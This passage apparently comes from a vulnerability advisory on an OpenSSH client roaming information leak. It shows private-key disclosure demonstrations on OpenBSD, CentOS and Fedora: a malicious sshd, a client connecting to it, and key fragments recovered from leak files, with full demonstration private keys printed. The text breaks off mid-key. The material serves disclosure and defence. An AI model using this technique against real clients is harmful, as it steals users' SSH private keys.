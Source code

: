 ------------------------------------------------------------------------ Private Key Disclosure example: OpenBSD 5.8, 2048-bit RSA key ------------------------------------------------------------------------ $ head -n 1 /etc/motd OpenBSD 5.8 (GENERIC) #1066: Sun Aug 16 02:33:00 MDT 2015 $ /usr/bin/ssh -V OpenSSH_7.0, LibreSSL 2.2.2 $ cat ~/.ssh/id_rsa -----BEGIN RSA PRIVATE KEY----- MIIEpAIBAAKCAQEAwe9ssfYbABhOGxnBDsPf5Hwypr3tVz4ZCK2Q9ZWWBYnk+KVL ruLv7NWzeuKF7ls8z4SdpP/09QIIWQO5xWmQ7OM7ndfHWexFoyS/MijorHLvwG1s 17KFF8aC5vcBTfVkWnFaERueyd+mxv+oIrskA3/DK7/Juojkq70aPAdafiWOuVT8 L/2exFuzpSmwiXbPuiPgImO9O+9VQ4flZ4qlO18kZxXF948GisxxkceOYWTIX6uh xSs/NEGF/drmB4RTAL1ZivG+e4IMxs5naLz4u3Vb8WTDeS6D62WM1eq5JRdlZtGP vavL01Kv3sYFvoD0OPUU4BjU8bd4Qb30C3719wIDAQABAoIBAG4zFpipN/590SQl Jka1luvGhyGoms0QRDliJxTlwzGygaGoi7D800jIxgv13BTtU0i4Grw/lXoDharP Kyi6K9fv51hx3J2EXK2vm9Vs2YnkZcf6ZfbLQkWYT5nekacy4ati7cL65uffZm19 qJTTsksqtkSN3ptYXlgYRGgH5av3vaTSTGStL8D0e9fcrjSdN0UntjBB7QGT8ZnY gQ1bsSlcPM/TB6JYmHWdpCAVeeCJdDhYoHKlwgQuTdpubdlM80f6qat7bsm95ZTK QolQFpmAXeU4Bs5kFlm0K0qYFkWNdI16ScOpK6AQZGUTcHICeRL3GEm6NC0HYBNt gKHPucECgYEA7ssL293PZR3W9abbivDxvtCjA+41L8Rl8k+J0Dj0QTQfeHxHD2eL cQO2lx4N3E9bJMUnnmjxIT84Dg7SqOWThh3Rof+c/vglyy5o/CzbScISQTvjKfuB +s5aNojIqkyKaesQyxmdacLxtBBppZvzCDTHBXvAe4t8Bus2DPBzbzsCgYEAz+jl hcsMQ1egiVVpxHdjtm3+D1lbgITk0hzIt9DYEIMBJ7y5Gp2mrcroJAzt7VA2s7Ri hBSGv1pjz4j82l00odjCyiUrwvE1Gs48rChzT1PcQvtPCCanDvxOHwpKlUTdUKZh vhxPK/DW3IgUL0MlaTOjncR1Zppz4xpF/cSlYHUCgYB0MhVZLXvHxlddPY5C86+O nFNWjEkRL040NIPo8G3adJSDumWRl18A5T+qFRPFik/depomuQXsmaibHpdfXCcG 8eeaHpm0b+dkEPdBDkq+f1MGry+AtEOxWUwIkVKjm48Wry2CxroURqn6Zqohzdra uWPGxUsKUvtNGpM4hKCHFQKBgQCM8ylXkRZZOTjeogc4aHAzJ1KL+VptQKsYPudc prs0RnwsAmfDQYnUXLEQb6uFrVHIdswrGvdXFuJ/ujEhoPqjlp5ICPcoC/qil5rO ZAX4i7PRvSoRLpMnN6mGpaV2mN8pZALzraGG+pnPnHmCqRTdw2Jy/NNSofdayV8V 8ZDkWQKBgQC2pNzgDrXLe+DIUvdKg88483kIR/hP2yJG1V7s+NaDEigIk8BO6qvp ppa4JYanVDl2TpV258nE0opFQ66Q9sN61SfWfNqyUelZTOTzJIsGNgxDFGvyUTrz uiC4d/e3Jlxj21nUciQIe4imMb6nGFbUIsylUrDn8GfA65aePLuaSg== -----END RSA PRIVATE KEY----- # "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key $ /usr/bin/ssh -o ProxyCommand="/usr/bin/nc -w 1 %h %p" -p 222 127.0.0.1 [connection suspended, press return to resume]Segmentation fault (core dumped) (this example requires a ProxyCommand because of the NULL-aitop bug described in the Mitigating Factors of the Information Leak section, and crashes because of the NULL-pointer dereference discussed in the Mitigating Factors of the Buffer Overflow section) # cat /tmp/roaming-a5eca355/infoleak ry+AtEOxWUwIkVKjm48Wry2CxroURqn6Zqohzdra uWPGxUsKUvtNGpM4hKCHFQKBgQCM8ylXkRZZOTjeogc4aHAzJ1KL+VptQKsYPudc prs0RnwsAmfDQYnUXLEQb6uFrVHIdswrGvdXFuJ/ujEhoPqjlp5ICPcoC/qil5rO ZAX4i7PRvSoRLpMnN6mGpaV2mN8pZALzraGG+pnPnHmCqRTdw2Jy/NNSofdayV8V 8ZDkWQKBgQC2pNzgDrXLe+DIUvdKg88483kIR/hP2yJG1V7s+NaDEigIk8BO6qvp ppa4JYanVDl2TpV258nE0opFQ66Q9sN61SfWfNqyUelZTOTzJIsGNgxDFGvyUTrz uiC4d/e3Jlxj21nUciQIe4imMb6nGFbUIsylUrDn8GfA65aePLuaSg== ------------------------------------------------------------------------ Private Key Disclosure example: CentOS 7, 1024-bit DSA key ------------------------------------------------------------------------ $ grep PRETTY_NAME= /etc/os-release PRETTY_NAME="CentOS Linux 7 (Core)" $ /usr/bin/ssh -V OpenSSH_6.4p1, OpenSSL 1.0.1e-fips 11 Feb 2013 $ cat ~/.ssh/id_dsa -----BEGIN DSA PRIVATE KEY----- MIIBvQIBAAKBgQDmjJYHvennuPmKGxfMuNc4nW2Z1via6FkkZILWOO1QJLB5OXqe kt7t/AAr+1n0lJbC1Q8hP01LFnxKoqqWfHQIuQL+S88yr5T8KY/VxV9uCVKpQk5n GLnZn1lmDldNaqhV0ECESXZVEpq/8TR2m2XjSmE+7Y14hI0cjBdnOz2X8wIVAP0a Nmtvmc4H+iFvKorV4B+tqRmvAoGBAKjE7ps031YRb6S3htr/ncPlXKtNTSTwaakC o7l7mJT+lI9vTrQsu3QCLAUZnmVHAIj/m9juk8kXkZvEBXJuPVdL0tCRNAsCioD2 hUaU7sV6Nho9fJIclxuxZP8j+uzidQKKN/+CVbQougsLsBlstpuQ4Hr2DHmalL8X iISkLhuyAoGBAKKRxVAVr2Q72Xz6vRmbULRvsfG1sSxNHOssA9CWKByOjDr2mo1l B7oIhTZ+eGvtHjiOozM0PzlcRSu5ZY3ZN2hfXITp9/4oatxFUV5V8aniqyq4Kwj/ QlCmHO7eRlPArhylx8uRnoHkbTRe+by5fmPImz/3WUtgPnx8y3NOEsCtAhUApdtS F9AoVoZFKEGn4FEoYIqY3a4= -----END DSA PRIVATE KEY----- # env ROAMING="heap_massaging:linux" "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key $ /usr/bin/ssh -p 222 127.0.0.1 ... # strings /tmp/roaming-b7b16dfc/infoleak jJYHvennuPmKGxfMuNc4nW2Z1via6FkkZILWOO1QJLB5OXqe kt7t/AAr+1n0lJbC1Q8hP01LFnxKoqqWfHQIuQL+S88yr5T8KY/VxV9uCVKpQk5 # strings /tmp/roaming-b324ce87/infoleak IuQL R2m2XjSmE+7Y14hI0cjBdnOz2X8wIVAP0a Nmtvmc4H+iFvKorV4B+tqRmvAoGBAKjE7ps031YRb6S3htr/ncPlXKtNTSTwaakC o7l7mJT+lI9v # strings /tmp/roaming-24011739/infoleak KjE7ps031YRb6S3htr/ncPlXKtNTSTwaakC o7l7mJT+lI9vTrQsu3QCLAUZnmVHAIj/m9juk8kXkZvEBXJuPVdL0tCRNAsC # strings /tmp/roaming-37456846/infoleak LsBlstpuQ4Hr2DHmalL8X iISkLhuyAoGBAKKRxVAVr2Q72Xz6vRmbULRvsfG1sSxNHOssA9CWKByOjDr2mo1l B7oIhTZ+eGvtHjiOozM0PzlcRSu5ZY3ZNA yq4Kwj/ # strings /tmp/roaming-988ff54c/infoleak GBAKKRxVAVr2Q72Xz6vRmbULRvsfG1sSxNHOssA9CWKByOjDr2mo1l B7oIhTZ+eGvtHjiOozM0PzlcRSu5ZY3ZN2hfXITp9/4oatxFUV5V8aniqyq4Kwj/ # strings /tmp/roaming-53887fa5/infoleak /4oatxFUV5V8aniqyq4Kwj/ QlCmHO7eRlPArhylx8uRnoHkbTRe+by5fmPImz/3WUtgPnx8y3NOEsCtAhUApdtS F9AoVoZFKEGn4FEoYIqY3a4 ------------------------------------------------------------------------ Private Key Disclosure example: Fedora 20, 2048-bit RSA key ------------------------------------------------------------------------ $ grep PRETTY_NAME= /etc/os-release PRETTY_NAME="Fedora 20 (Heisenbug)" $ /usr/bin/ssh -V OpenSSH_6.4p1, OpenSSL 1.0.1e-fips 11 Feb 2013 $ cat ~/.ssh/id_rsa -----BEGIN RSA PRIVATE KEY----- MIIEogIBAAKCAQEAmbj/XjOppLWSAhuLKiRoHsdp66LJdY2PvP0ht3GWDKKCk7Gz HLas5VjotS9rmupavGGDiicMHPClOttWAI9MRyvP77iZhSei/RzX1/UKk/broTDp o9ljBnQTzRAyw8ke72Ih77SOGfOLBvYlx80ZmESLYYH95aAeuuDvb236JnsgRPDQ /B/gyRIhfqis70USi05/ZbnAenFn+v9zoSduDYMzSM8mFmh9f+9PVb9qMHdfNkIy 2E78kt9BknU/bEcCWyL+IXNLV0rgRGAcE0ncKu13YvuH/7o4Q7bW2FYErT4P/FHK
